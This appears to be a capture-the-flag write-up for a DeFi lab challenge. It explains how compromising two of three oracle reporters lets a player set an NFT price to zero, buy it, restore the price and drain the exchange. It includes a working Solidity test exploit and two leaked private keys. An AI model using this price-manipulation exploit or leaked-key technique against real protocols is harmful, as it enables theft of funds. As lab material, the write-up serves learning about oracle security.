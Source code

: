 This price is fetched from an on-chain oracle, based on 3 trusted reporters: `0x188...088`, `0xA41...9D8` and `0xab3...a40`.

Starting with just 0.1 ETH in balance, pass the challenge by rescuing all ETH available in the exchange. Then deposit the funds into the designated recovery account.


#### Solution Explanation:

The key to this challenge lies in the oracle being compromised. By manipulating two of the three trusted oracle sources, we can artificially lower the price of the DVNFT token, allowing us to buy one for virtually zero cost. Then, after resetting the price back to its original value, we can sell the token at the original high price and drain the funds from the exchange.

1.	Decode the oracle addresses (hex+base64): Using the hex code provided in the response, decode it to find the addresses of the trusted oracles.

2.	Manipulate the price: Use the oracle to set the price of the DVNFT to 0 from the compromised addresses.

3.	Buy a DVNFT: Purchase a DVNFT for 0 ETH since the price was manipulated.

4.	Restore the price: Reset the price of the DVNFT back to the original 999 ETH.

5.	Sell the DVNFT: Sell the DVNFT at the inflated price, draining the exchange’s balance.

6.	Transfer the ETH: Finally, send all the ETH from the sale to the designated recovery address.


<details>
  <summary> Code </summary>

  ```solidity
function test_compromised() public checkSolved {
    //Priv. key: 0x7d15bba26c523683bfc3dc7cdc5d1b8a2744447597cf4da1705cf6c993063744
    address adr1 = 0x188Ea627E3531Db590e6f1D71ED83628d1933088; // 1 oracle
    //Priv. key: 0x68bd020ad186b647a691c6a5c0c1529f21ecd09dcc45241402ac60ba377c4159
    address adr2 = 0xA417D473c40a4d42BAd35f147c21eEa7973539D8; // 2 oracle 

    vm.startPrank(adr1);
    oracle.postPrice("DVNFT", 0);
    vm.stopPrank();

    vm.startPrank(adr2);
    oracle.postPrice("DVNFT", 0);
    vm.stopPrank();

    vm.startPrank(player);
    uint256 ID = exchange.buyOne{value: 1}();
    vm.stopPrank();

    vm.startPrank(adr1);
    oracle.postPrice("DVNFT", INITIAL_NFT_PRICE);
    vm.stopPrank();


    vm.startPrank(adr2);
    oracle.postPrice("DVNFT", INITIAL_NFT_PRICE);
    vm.stopPrank();

    vm.startPrank(player);
        
    nft.approve(address(exchange), ID);
    exchange.sellOne(ID);
    recovery.call{value: INITIAL_NFT_PRICE}("");

    vm.stopPrank();
}
```

